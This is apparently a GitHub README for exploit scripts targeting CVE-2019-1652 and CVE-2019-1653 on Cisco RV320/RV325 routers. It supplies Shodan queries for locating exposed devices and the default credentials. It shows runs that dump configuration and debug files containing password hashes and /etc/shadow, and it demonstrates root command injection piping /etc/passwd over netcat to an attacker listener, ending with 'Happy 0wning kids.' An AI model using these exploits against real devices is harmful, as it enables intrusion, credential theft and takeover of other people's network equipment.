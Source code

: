 # CiscoRV320Dump
CVE-2019-1653/CVE-2019-1652 Exploits For Dumping Cisco RV320 Configurations and getting RCE

Implementations of the CVE-2019-1652 and CVE-2019-1653 exploits disclosed by [Red Team Pentesting GmbH](http://www.redteam-pentesting.de).

I only tested these on an RV320, but according to the [Cisco advisory](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190123-rv-info), the RV325 is also vulnerable.

The following [Shodan](https://shodan.io) queries appear to find them, if you are curious about how many are out there. There seems to be quite a few...  
[ssl:RV320](https://www.shodan.io/search?query=ssl%3ARV320)  
[ssl:RV325](https://www.shodan.io/search?query=ssl%3ARV325)  
[port:161 RV325](https://www.shodan.io/search?query=port%3A161+RV325)  
[port:161 RV320](https://www.shodan.io/search?query=port%3A161+RV320)  

The vulnerabilities allow for the following:
* Dumping (Plaintext) Configuration File! (includes hashes for the webUI!)
* Dumping (Encrypted) Diagnostic/Debug Files! (including config, and the /etc and /var directories)
* Decrypting the encrypted Diagnostic/Debug Files! (yes, you get /etc/shadow!)
* Post-Authentication Remote Command Injection as root in the webUI!

As an aside, the default creds are cisco:cisco.

## Exploits...

### Config Dumper Exploit...
For the [configuration dump exploit](https://seclists.org/fulldisclosure/2019/Jan/52), just set target, port, ssl on/off, and output directory. It will dump the configuration to there. 
```
$ python dump_config.py -t x.x.x.x -p 8443 -s -d output
{+} Sending request to https://x.x.x.x:8443/cgi-bin/config.exp
{*} We seem to have found a valid config! Writing to output/x.x.x.x_8443.conf
$
```

### Debug Data Dumper Exploit...
For the [debug data dumping exploit](https://seclists.org/fulldisclosure/2019/Jan/53), it is the same routine, but the dumped data is larger and encrypted. 
You will want to decrypt this using the provided "decrypt.sh" script, or manually using `openssl`. This will give you a tar file.
The debug output not only gets you the config, but also backups of `/etc` and `/var`, and yes, the `/etc/shadow/` file is present.
I'll eventually rewrite the decryption script in Python, but this was a quick kludge.
```
$ python dump_debug.py -t x.x.x.x -p 8443 -s -d output
{+} Sending request to https://x.x.x.x:8443/cgi-bin/export_debug_msg.exp
{*} We seem to have found a valid encrypted config! Writing to output/x.x.x.x_8443.enc
$ ./decrypt.sh output/x.x.x.x_8443.enc 
Cisco Encrypted Debug Data Decryption Script!
{+} Decrypting output/x.x.x.x_8443.enc
{+} Plaintext should be at output/x.x.x.x_8443.enc.decrypted.tar.gz...
$ 
```

Using the creds you get from these (hashed) you can then exploit [CVE-2019-1652](https://seclists.org/fulldisclosure/2019/Jan/54) to execute commands on the device. 

A few notes on the "hashing" of the password, before we go any further. On these, in the config file, you will find a variable named PASSWD followed by an md5 hash. 
This md5 hash is `md5($password.$auth_key)`, where the auth_key is a static value you can find by doing a `GET /` and parsing. 
There is a seemingly common one that I hardcoded into the RCE exploit as a fallback incase the page parser bullshit regex fails.

### Post-Auth RCE Exploit
CVE-2019-1652 outlines a trivial shell command injection vulnerability, which requires authentication. `exec_cmd.py` implements this, assuming you have valid login creds. "cisco:cisco" is the default, but you could also crack some hashes.

The command injection is blind, so you won't get any output. The environment is an incredibly limited Busybox setup with a crippled netcat, and the boxes are mips64, so I didn't bother writing a reverse-shell exploit this time. You can, however, get command output by doing stuff like `cat /etc/passwd | nc HOST PORT` and having a listener running, or whatever. 

Example run of the exploit below:  
```
$ python exec_cmd.py -t x.x.x.x -s -p 8443 -U cisco -P cisco -c "cat /etc/passwd | nc x.x.x.x 1337"
{+} Sending request to https://x.x.x.x:8443/ to extract auth key...
{*} Got auth_key value: 1964300002
{+} Login Successful, we can proceed!
{+} Ok, now to run your command: cat /etc/passwd | nc x.x.x.x 1337
{+} We don't get output so... Yeah. Shits blind.
$
# on listener...
$ nc -lp 1337
root:x:0:0:root:/:/bin/admin
nobody:x:0:0:nobody:/nonexistent:/bin/false
_lldpd:x:501:501:_lldpd:/:/bin/sh
cisco:x:0:0:root:/bin:/bin/admin

$
```

Happy 0wning kids. 
